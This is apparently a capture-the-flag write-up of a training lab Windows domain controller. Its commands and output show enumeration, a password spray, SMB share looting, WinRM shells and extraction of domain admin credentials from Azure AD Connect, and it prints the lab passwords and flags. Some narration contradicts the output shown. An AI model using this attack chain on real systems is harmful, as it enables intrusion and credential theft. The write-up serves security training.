


# Summary

The Monteverde domain controller was compromised through a password spray attack that identified weak credentials for the SABatchJobs service account. This account provided access to an SMB share containing a cleartext password file for user mhope, who was a member of the Azure Admins group. This privileged access allowed extraction of domain administrator credentials from the Azure AD Connect database, resulting in full domain compromise.
## NMAP

A full TCP port scan was performed against the host 10.129.228.111. The scan was executed with service version detection, default scripts, and OS detection enabled, while treating the host as online. The results indicated a filtered state for the majority of ports. The only open port discovered was port 5985, which was running Microsoft HTTPAPI httpd 2.0

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 10.129.228.111 --open 
```

A comprehensive port scan of the host Monteverde revealed it to be an Active Directory domain controller for the domain MEGABANK.LOCAL. Key services identified include DNS (port 53), Kerberos (port 88), SMB (ports 139, 445), LDAP (ports 389, 636, 3268, 3269), and WinRM (port 5985). The operating system was identified as Microsoft Windows, likely Windows Server 2019. SMB signing was enabled and required.

```output
3/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-24 17:07:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49752/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-24T17:08:49
|_  start_date: N/A


```

The NetExec tool confirmed the host Monteverde is running a Windows 10 or Server 2019 Build 17763 operating system, is a member of the MEGABANK.LOCAL domain, and has SMB signing enabled.

```bash
nxc smb 10.129.228.111                                                            
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
```

The hosts file was configured to resolve the hostname MONTEVERDE and the domain MEGABANK.LOCAL to the IP address 10.129.228.111.

```bash
cat  /etc/hosts
10.129.228.111  MONTEVERDE  MEGABANK.LOCAL
```

An anonymous bind to the LDAP service on Monteverde was performed, which successfully enumerated a list of domain users.
```bash
nxc ldap 10.129.228.111  -u '' -p ''  --users 
```

The anonymous LDAP enumeration successfully listed ten domain users. The accounts include Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, and smorgan.

```bash
LDAP        10.129.228.111  389    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
LDAP        10.129.228.111  389    MONTEVERDE       [+] MEGABANK.LOCAL\: 
LDAP        10.129.228.111  389    MONTEVERDE       [*] Enumerated 10 domain users: MEGABANK.LOCAL
LDAP        10.129.228.111  389    MONTEVERDE       -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.129.228.111  389    MONTEVERDE       Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.129.228.111  389    MONTEVERDE       AAD_987d7f2f57d2              2020-01-02 17:53:24 0        Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.                                                                                                                          
LDAP        10.129.228.111  389    MONTEVERDE       mhope                         2020-01-02 18:40:05 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       SABatchJobs                   2020-01-03 07:48:46 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-ata                       2020-01-03 07:58:31 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-bexec                     2020-01-03 07:59:55 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-netapp                    2020-01-03 08:01:42 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       dgalanos                      2020-01-03 08:06:10 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       roleary                       2020-01-03 08:08:05 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       smorgan                       2020-01-03 08:09:21 0                                                              
```

The command performed an anonymous LDAP enumeration, extracted the usernames, and saved them to a file named users.txt.

```bash
 nxc ldap 10.129.228.111 -u '' -p '' --users --kdc MEGABANK.LOCAL | awk '{print $5}' >users.txt      

```
The file users.txt contains the list of enumerated domain users: Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, and smorgan.

```output
cat users.txt 
[*]
[+]
[*]
-Username-
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

A password spray attack was conducted against the SMB service using the username list as the password list. The attack was unsuccessful, as no valid credentials were obtained.

```bash
nxc smb 10.129.228.111 -u 'users.txt' -p 'users.txt' 
```

The password spray attack was successful. The user SABatchJobs was found to have the password SABatchJobs.

```output
MB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\-Username-:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
                                                                
```

The credentials for the user SABatchJobs were successfully validated against the SMB service on Monteverde.

```bash
nxc smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs'
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
                              
```

The credentials for the user SABatchJobs were validated against SMB but were unsuccessful for authenticating to the WinRM service.

```bash
nxc winrm  10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs'
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

The SABatchJobs account was used to access the users$ SMB share. The user directory for mhope was listed, and a file named azure.xml was retrieved from it. The file was successfully downloaded to the local machine.

```bash
smbclient //10.129.228.111/users$ -U 'MEGABANK.LOCAL\\SABatchJobs'
Password for [SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (7.4 KiloBytes/sec) (average 7.4 KiloBytes/sec)
smb: \mhope\> exit


```

The file azure.xml contained a PowerShell serialized object which revealed a plaintext password: `4n0therD4y@n0th3r$`.

```bash
cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>          

```

The password `4n0therD4y@n0th3r$` was tested against the list of users and was found to be valid for the account mhope.

```bash
nxc smb 10.129.228.111 -u 'users.txt' -p '4n0therD4y@n0th3r$' --continue-on-success 
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[+]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\-Username-:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
                                                  

```

The credentials for the user mhope were successfully validated against the SMB service.

```bash
nxc smb 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'                      
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
                                                                       
```

The credentials for the user mhope were successfully used to authenticate to the WinRM service, granting access to the host. The account has administrative privileges, as indicated by the "Pwn3d!" status.

```bash
nxc winrm  10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$' 
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

A remote shell was established on Monteverde using Evil-WinRM with the credentials for the user mhope.
```bash
evil-winrm -i 10.129.228.111 -u mhope -p 4n0therD4y@n0th3r$  
```

The user flag was retrieved from the mhope user's desktop. The flag is 8cb8a3137615f9596c2d0eaa8890f664.

```bash
*Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
8cb8a3137615f9596c2d0eaa8890f664

```

BloodHound data was collected from the domain using the mhope credentials. The collection included all available information and was saved in a compressed archive.

```bash
bloodhound-python -u 'mhope' -p '4n0therD4y@n0th3r$' -d 'MEGABANK.LOCAL' -c All -ns 10.129.228.111 -v --zip
```

The user mhope has the CanPSRemote privilege, which allows PowerShell Remoting, on the host MONTEVERDE.MEGABANK.LOCAL.



The user mhope has the DCSync privileges, which allows for the replication of domain password data, including the ability to retrieve the NTLM password hash for the Administrator account.




An attempt to execute Mimikatz from the mhope user's desktop was blocked by antivirus software.

```bash
Evil-WinRM* PS C:\Users\mhope\Desktop> .\mimikatz.exe
Program 'mimikatz.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\mimikatz.exe
+ ~~~~~~~~~~~~~~.
At line:1 char:1
+ .\mimikatz.exe
+ ~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

The user mhope is a member of the Azure Admins and Domain Users groups. The account is configured with a non-expiring password and the user cannot change it. The last logon was recorded on October 24, 2025.

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   10/24/2025 10:17:14 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.


```

Upon regrouping and doing some research, I was able to find this tool by CloudyKhan that extracts passwords from Azure AD ([https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor](https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor)).  The Azure-AD-Connect-Credential-Extractor tool was cloned from GitHub and the decrypt.ps1 script was prepared for transfer to the target machine. The script was copied to the local working directory.

```bash
sudo git clone https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor.git
sudo chmod +x decrypt.ps1 

cp -r decrypt.ps1   /home/kali/Downloads/Monteverde  

```

The decrypt.ps1 script was executed on the target. It successfully connected to the local ADSync database and decrypted the credentials for the domain administrator account. The administrator password was revealed to be `d0m@in4dminyeah!`.

```bash
.\decrypt.ps1
Attempting connection: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync;Integrated Security=True
Error connecting to SQL database. Trying next...
Exception Message: A network-related or instance-specific error occurred while establishing a connection to SQL Server. The server was not found or was not accessible. Verify that the instance name is correct and that SQL Server is configured to allow remote connections. (provider: SQL Network Interfaces, error: 52 - Unable to locate a Local Database Runtime installation. Verify that SQL Server Express is properly installed and that the Local Database Runtime feature is enabled.)
Attempting connection: Data Source=localhost;Initial Catalog=ADSync;Integrated Security=True
Connection successful!
Loading mcrypt.dll from: C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!


```

A remote shell was established on Monteverde using Evil-WinRM with the domain administrator credentials.

```bash
evil-winrm -i 10.129.228.111 -u administrator -p d0m@in4dminyeah!  
```

The root flag was retrieved from the Administrator user's desktop. The flag is 78f6145530147b957665801d9ba03ce2.

```output
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
78f6145530147b957665801d9ba03ce2
```
